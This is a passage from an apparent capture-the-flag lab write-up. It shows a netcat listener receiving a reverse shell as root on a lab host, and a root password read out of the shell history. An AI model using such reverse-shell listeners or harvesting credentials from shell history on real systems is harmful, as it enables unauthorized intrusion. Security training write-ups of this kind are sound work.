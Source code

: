 <figure><img src="../../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

Click on send notifications and get the shell

#### Shell

```bash
╰─➤  rlwrap nc -nvlp 4444                                                                                                                                                                      1 ↵
listening on [any] 4444 ...
connect to [10.10.16.15] from (UNKNOWN) [10.129.154.55] 41716
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@ae5c137aa8ef:/app# history
history
    1  apt update
    2  #YouC4ntCatchMe#

```

in the history you can see the root password,

<figure><img src="../../../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

DONE!!

\_\_\_\_\_\_\_\_\_\_heapbytes' still pwning

